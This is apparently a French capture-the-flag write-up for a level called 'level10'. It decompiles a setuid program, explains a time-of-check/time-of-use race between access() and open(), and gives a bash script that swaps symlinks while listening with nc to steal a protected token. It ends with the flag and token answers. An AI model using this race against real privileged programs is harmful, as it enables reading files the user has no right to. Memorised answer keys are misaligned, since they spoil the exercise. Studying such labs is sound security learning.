 # level10

### Observations

##### Je décompile le programme '~/level10':
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	int				*v3;
	char			*v4;
	const char		*v6;
	const char		*v7;
	int				v8;
	int				v9;
	size_t			v10;
	char			buf[4096];
	struct sockaddr	addr;
	unsigned int	v13;

	v13 = __readgsdword(0x14u);
	if ( argc <= 2 )
	{
		printf("%s file host\n\tsends file to host if you have access to it\n", *argv);
		exit(1);
	}
	v6 = argv[1];
	v7 = argv[2];
	if ( access(v6, 4) )
		return printf("You don't have access to %s\n", v6);
	printf("Connecting to %s:6969 .. ", v7);
	fflush(stdout);
	v8 = socket(2, 1, 0);
	*(_DWORD *)&addr.sa_data[6] = 0;
	*(_DWORD *)&addr.sa_data[10] = 0;
	addr.sa_family = 2;
	*(_DWORD *)&addr.sa_data[2] = inet_addr(v7);
	*(_WORD *)addr.sa_data = htons(0x1B39u);
	if ( connect(v8, &addr, 0x10u) == -1 )
	{
		printf("Unable to connect to host %s\n", v7);
		exit(1);
	}
	if ( write(v8, ".*( )*.\n", 8u) == -1 )
	{
		printf("Unable to write banner to host %s\n", v7);
		exit(1);
	}
	printf("Connected!\nSending file .. ");
	fflush(stdout);
	v9 = open(v6, 0);
	if ( v9 == -1 )
	{
		puts("Damn. Unable to open file");
		exit(1);
	}
	v10 = read(v9, buf, 0x1000u);
	if ( v10 == -1 )
	{
		v3 = __errno_location();
		v4 = strerror(*v3);
		printf("Unable to read from file: %s\n", v4);
		exit(1);
	}
	write(v8, buf, v10);
	return puts("wrote file!");
}
```

##### Détails du programme:
```bash
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
```

##### Entrées du programme:
```c
char *chemin_fichier
char *addresse_ip
```

##### Fonctionnement:
Le programme vérifie si le chemin_fichier est accessible par l'utilisateur à l'aide de la fonction access. \
Puis se connecte à un serveur avec l'addresse_ip pour par la suite ouvrir le fichier avec la fonction open.

> Le serveur est hébergé sur le port '6969'.

##### Conclusions:
L'ordre d'exécution des fonctions créé une faille qui nous permet de modifier le fichier pointant à la fin du chemin_fichier pendant la connection. \
Cette opération leurre la fonction open sur le fait que nous avons les droits sur ce fichier dû au fait que la fonction access retient les drois d'ouverture.

### Résolution
Je créé un script qui effectue trois opérations distinctes en parallele.

 1. La premiere consiste en une boucle qui créé un lien symbolique vers un fichier accessible par l'utilisateur \
 pour ensuite le modifier vers un fichier innaccessible par l'utilisateur.

 2. La seconde est composée d'une boucle qui exécute le programme '~/level10' tout en pointant sur le lien symbolique \
 créé et modifié par la boucle de l'opération précédente.

 3. La dernière est une simple boucle qui récupère les données circulant sur le port réseau 6969 et affiche le resultat \
 quand ce n'est pas le contenu du fichier accessible (soit le programme).

Il ne me reste plus qu'à lui donner les droits d'exécution et de l'exécuter pour avoir mon flag.

##### /tmp/script.sh :
```bash
#! /bin/bash

rm -rf /tmp/done

link_breaker()
{
	while [ ! -f "/tmp/done" ];
	do
		ln -nsf /home/user/level10/level10 /tmp/link
		ln -nsf /home/user/level10/token /tmp/link
	done
}

listen_to_serv()
{
	while [ ! -f "/tmp/done" ];
	do
		TOK="$(nc -ln 6969)"
		[[ "$TOK" !=  *ELF* ]] && echo "$TOK" && touch /tmp/done
	done
}

exec_loop()
{
	while [ ! -f "/tmp/done" ];
	do
		/home/user/level10/level10 /tmp/link "127.0.0.1" >/dev/null
	done
}

exec_loop&
listen_to_serv&
link_breaker&

wait

```

#### commandes:
```bash
chmod +x /tmp/script.sh
/tmp/script.sh
```

**flag :** woupa2yuojeeaaed06riuj63c

**token :** feulo4b72j7edeahuete3no7c
